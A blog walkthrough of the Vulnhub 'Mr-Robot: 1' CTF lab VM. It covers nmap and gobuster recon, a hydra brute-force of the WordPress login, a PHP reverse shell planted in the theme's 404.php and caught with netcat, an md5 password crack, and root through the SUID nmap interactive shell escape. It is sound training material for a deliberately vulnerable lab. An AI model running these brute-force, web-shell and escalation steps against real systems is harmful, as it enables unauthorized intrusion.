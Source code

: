 ```yaml
---
date: 2020-04-21 18:24:19
layout: post
title: "Mr Robot Vulnhub Walkthrough"
subtitle:
description: Mr-Robot 1 is one of vulnhub's CTF challenges, based on the favored TV series 'Mr Robot' (which is one of the best TV series).
image: /assets/img/uploads/mr-robot-ctf/mr-robot.jpg
optimized_image: /assets/img/uploads/mr-robot-ctf/mr-robot-optimized.jpg
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: mr robot, mr robot vulnhub, mr robot walkthrough, mr robot try hack me, mr robot ctf, infosec articles
---
```


Mr-Robot: 1 is one of vulnhub's CTF challenges, based on the favored TV series 'Mr Robot' (which is one of the best TV series). There are 3 hidden keys in the VM. Our objective is to locate all 3 keys.

We begin our reconnaissance by running a port scan with Nmap, checking default scripts and testing
for vulnerabilities.

```r
m1m3@kali:~$ nmap -sC -sV -oA nmap/mrRobot 192.168.1.7

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.7
Host is up (0.0018s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesnt have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesnt have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.91 seconds

```
<br>
We see a ssh port open and ports 80 and 443 are open. Let's fire up our browser and see what's running on port 80.

<center><br>
<img src="/assets/img/uploads/mr-robot-ctf/port80.png">
</center>

### KEY-1-OF-3

We'll try with some basics first. How about checking out for a robots.txt file?

```r
User-agent: *
fsocity.dic
key-1-of-3.txt
```

BOOM! We just found a dictionary file as well as our first key. Let's grab our first key at <b>http://target_ip/key-1-of-3.txt</b>. Also lets download the dictionary file, it might be useful.

Now let's use gobuster to search for directories we have.

```r
m1m3@kali:~$ gobuster dir -u http://192.168.1.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log

===============================================================                 
Gobuster v3.0.1                                 
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================                                                                                                          
[+] Url:            http://192.168.1.7                 
[+] Threads:        10                 
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt    
[+] Status codes:   200,204,301,302,307,401,403 
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
 Starting gobuster
===============================================================
/images (Status: 301)
/blog (Status: 301)
/sitemap (Status: 200)
/rss (Status: 301)
/login (Status: 302)
/feed (Status: 301)
/video (Status: 301)
/image (Status: 301)
/wp-content (Status: 301)
/admin (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/readme (Status: 200)
/robots (Status: 200)
```

We see a lot of directories here. Also, we can see this site is running wordpress. So let's try bruteforcing the <i>/wp-login</i> with the dictionary file we have. Let's fire up burp to intercept the login request. I'll try a random username and password.

<center><br>
<img src="/assets/img/uploads/mr-robot-ctf/burp.png">
</center>

And we got this:<br>
<i>log=admin&pwd=admin&wp-submit=Log+In</i>

I'll be using <i>hydra</i> to fuzz the username. Before that let's sort the dictionary file to remove duplicate words using: 

`$ sort fsocity.dic | uniq > sorted.dic`

```r
m1m3@kali:~$ hydra -V -L sorted.dic -p 4444 192.168.1.7 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username' | grep http-post-form

[DATA] attacking http-post-form://192.168.1.7:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username
[80][http-post-form] host: 192.168.1.7   login: Elliot   password: 4444
[80][http-post-form] host: 192.168.1.7   login: elliot   password: 4444
[80][http-post-form] host: 192.168.1.7   login: ELLIOT   password: 4444
```
We got the username Elliot, Now we will run the same attack again for the password.

```r
m1m3@kali:~$ hydra 192.168.1.7 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:incorrect" -l Elliot -P sorted.dic -t 10 -w 30

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-28 15:17:15
[DATA] max 10 tasks per 1 server, overall 10 tasks, 11452 login tries (l:1/p:11452), ~1146 tries per task
[DATA] attacking http-post-form://192.168.1.7:80/wp-login.php:log=^USER^&pwd=^PASS^:incorrect

[80][http-post-form] host: 192.168.1.7   login: Elliot   password: ER28-0652

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished.
```

That's it we just gained access to the WordPress platform, with the username Elliot and the password ER28-0652! Now we need to find a way to get a reverse shell. 

### KEY-2-OF-3

We can update a plugin with a php reverse shell to gain access. I'll be using the php shell from <a href="https://github.com/pentestmonkey/php-reverse-shell">pentest monkey.</a>

<center><br>
<img src="/assets/img/uploads/mr-robot-ctf/404plugin.png">
</center>

I've edited the 404.php Now our code will be executed if we go to any random url that doesn't exist. And we manage to get a reverse shell from the machine.

```r
m1m3@kali:~$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.12] from (UNKNOWN) [192.168.1.7] 48942
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 10:50:44 up  2:25,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ 
```

Now If we try to access the second flag in /home/robot/key-2-of-3.txt, we get an error saying permission denied.

```r
daemon@linux:/home/robot$ wc -c key-2-of-3.txt
wc -c key-2-of-3.txt
wc: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ 
```

Also we have a <i>password.raw-md5</i> file in the home directory. This will be our way in!
This can be cracked using any online md5 decrypter and we the password of robot user as <i>abcdefghijklmnopqrstuvwxyz</i>


Now we can login as user robot using: 
```r
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ wc -c key-2-of-3.txt    
wc -c key-2-of-3.txt
33 key-2-of-3.txt
```

### KEY-3-OF-3

Now we must find a way to root. What about SUID files? Let's see.

```r
robot@linux:~$ find / -user root -perm -4000 -exec ls -ldb {} \; | grep -v proc
< root -perm -4000 -exec ls -ldb {} \; | grep -v proc                        
...
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
...
```

We can see that nmap is installed in the machine, this can be our way to root. Looking up in the <a href='https://gtfobins.github.io/gtfobins/nmap/'>GTFO Bins,</a> I found we can get root using:

```r
robot@linux:~$ nmap --interactive                                 
nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )  
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh                                                          
!sh                                                             
# whoami
whoami
root
# wc -c /root/key-3-of-3.txt
wc -c /root/key-3-of-3.txt
33 /root/key-3-of-3.txt
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/Ty_poe">Tyler Pate.</a>